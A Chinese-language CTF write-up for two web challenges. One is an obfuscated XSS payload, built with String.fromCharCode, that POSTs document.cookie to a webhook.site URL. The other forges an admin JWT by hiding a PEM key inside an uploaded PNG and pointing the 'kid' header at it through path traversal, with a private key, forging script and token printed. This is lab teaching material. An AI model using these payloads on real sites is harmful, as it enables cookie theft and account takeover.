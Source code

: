 
# web
### b01ler-ad
post `/review`接口,会有一个浏览器来访问http://localhost:3000/admin/view?content?=${content}
,发送一个html文档,

过滤了' " \` 使用String.fromCharCode绕过
 应该是xss读cookie,就是直接发个html,fetch,注意加个no-cors,不然无法跨域

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>upload</title>
</head>
<body>
<script>
eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,97,50,48,99,57,102,57,100,45,98,53,48,54,45,52,97,56,97,45,57,51,100,97,45,99,101,53,52,102,100,56,55,100,48,54,97,39,44,123,109,101,116,104,111,100,58,39,80,79,83,84,39,44,109,111,100,101,58,39,110,111,45,99,111,114,115,39,44,98,111,100,121,58,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,125,41))</script>

</body>
</html>
```
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240413232240.png)

### imagehost
flag在上传的png里,登录为admin即可
`FLAG_FILENAME="$(python3 -c 'import uuid;print(uuid.uuid4())').png"`

Route("/", home),   主页,jwt鉴权,给出当前用户所有上传的照片
Route("/login", login_get), 返回login.html,jinjia2渲染无ssti
Route("/login", login, methods=["POST"]),    传入用户名/密码,fetchone,设置jwt里userid和admin
Route("/register", register_get),             register.html
Route("/register", register, methods=["POST"]),   insert,参数化
Route("/logout", logout),                  
Route("/", upload, methods=["POST"]),        上传文件,
Route("/view/{filename}", view),   
```python
async def view(request):
	filename = request.path_params["filename"]
	
	path = UPLOAD_FOLDER.joinpath("a").with_name(filename)
	if not path.exists():
		return PlainTextResponse("Image not found", 404)
	
	return FileResponse(UPLOAD_FOLDER.joinpath("a").with_name(filename))
```

需要伪造admin用户,使用的是非对称加密,且公钥(decode)的文件位置可指定,能否通过upload上传公钥文件,,且pem还要符合png的标准

我为我的无知道歉,pem的格式是这样的
```pem
-----BEGIN RSA PRIVATE KEY-----
MIICXAIBAAKBgQCT96Ir3DM+PtlpHqyI8YOBOKyAexIO5RMpwUgUndIRBs72g0Ga
Tyy8yxKbMCaJ2nLQBC9D6cOp8UzHBeirsk0rYETGQBFqHzOvjod3VjE+9eRMJGl7
oohwHUzqHUOoNDKLvz2HuoVtRHawfw4EHCx9OTNyWct7jjg9VV0EEz9IdQIDAQAB
AoGAbFR3kZ70kVTYPYLslJIlUj0Y5jO0Y91Iq2BLknR9MGQIsCgmpn/i5BHU/HND
M9gQCMWXiSQjUU9Ng8SKtPGkVsl22mNZkRb69Ca1083pI2HxwL3dhEXl+VLD37w+
Cg+9glWnsjdUFy8WoiTun0yWJHiXKN2VRCv759+vJS6M150CQQDDQt2HoKEKVsU1
RLyRpr93Idtmzplro48zsvsmuCZJyNnpn4VYz7BFvu7SDX4Xkz1dr9gELnTvnQY3
rBWNQOXzAkEAwf6jpDFa+JL9/CLLTxuwn51Or8C4zcd1LjrmsqWz8SYDnuAZo4Vg
A2MlVAYpbk1XfVWzGPxralsa9+Zrl9yp9wJATmQe2h+T57m0TNF+vx7pyWNPWTPi
hkNQ75mQmRffT0oSqmd/uosPIsEn0i7Wi5JyVZWOLQeVrMkmwN0WffIrHwJBAIM2
4Sil2YpYokJwpmOTrxvHIvntuRI23yOt42zid5ucwsYrfiwEgrTH0u/KWyuoVI0J
8mHsGhuOE+epiwzkzHECQCN3G0+GcCfE6eYF5yW19n7QoK3sxU5HbwXKoAeXgM0z
TEiGjWVM5w+Ea21IUsE2O2CIG1CePqUI2DSujYCo7Oc=
-----END RSA PRIVATE KEY-----
```
或者说view路由读取公钥文件?

实践出真知!!!,只要不破坏pem文件格式也可以解析
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414025437.png)

类似于图片马的制作,在一个图片中间把公钥加上去
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414035316.png)


照着原来的代码写一个加密,注意在linux上跑...
```python
import jwt
from pathlib import Path


payload={"user_id":1,"admin":True}

def encode(payload, public_key: Path, private_key: Path):
        key = private_key.read_bytes()
        return jwt.encode(payload=payload, key=key, algorithm="RS256", headers={"kid": str(public_key)})
print(encode(payload=payload,public_key=Path('../../../../../../uploads/2b170008-668c-4810-9b38-3815912a675b.png'),private_key=Path('/tmp/private.pem')))
```

output`eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii4uLy4uLy4uLy4uLy4uLy4uL3VwbG9hZHMvMmIxNzAwMDgtNjY4Yy00ODEwLTliMzgtMzgxNTkxMmE2NzViLnBuZyJ9.eyJ1c2VyX2lkIjoxLCJhZG1pbiI6dHJ1ZX0.fBuVTPsTuxKvVfpTUsi8qcDt07TqNZaORzH936DSgCT_xn5AtblipxDWKIHCbRRQyb1E2fwCQI7S9ORYNEb71PCrAHSop2akS084yIssIyVM3JGCVKpNrOvt-ta6Ua3TemAcpuI3Jx8jE_HTIot0rdBahS_DVXuZ8-NHn2YqIOo`

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240414034815.png)



### 3-city-elves-writeups


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-13   22:21